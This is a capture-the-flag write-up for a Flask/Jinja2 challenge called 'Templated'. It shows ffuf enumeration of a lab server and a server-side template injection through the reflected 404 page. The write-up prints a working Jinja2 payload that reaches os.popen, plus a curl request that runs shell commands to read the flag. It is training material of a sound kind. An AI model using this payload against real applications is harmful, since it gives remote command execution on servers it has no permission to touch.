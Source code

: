 # Templated

> **Can you exploit this simple mistake?**

## A static, empty page??

The root page is a barebone "site under construction":

```html
<html><head></head><body><h1>Site still under construction</h1>
<p>Proudly powered by Flask/Jinja2</p>
</body></html>
```

The server always responds with status 200, even when the page doesn't exist.
`dirbuster` and `gobuster` report bogus findings, but `ffuf` can bypass the lure:

```bash
ffuf -c -fr '404' -u http://138.68.182.108:31201/ -w /usr/share/wordlists/discovery/all.txt
```

Still nothing of interest.

## SSTI

Actually there are 2 pages: the root and the 404 pages.

The 404 page reflects the request in its content:

```html
<p>The page '<str>somemaliciouscode</str>' could not be found</p>
```

`jinja` evaluate special expressions placed in `{{ }}`:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

After url encoding:

```bash
curl http://138.68.182.108:31201/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D
```

## Notes for future me

SSTI can be detected with ffuf:

```bash
ffuf -u http://138.68.182.108:31201/FUZZ -w /usr/share/wordlists/fuzzing/special-chars.txt
```
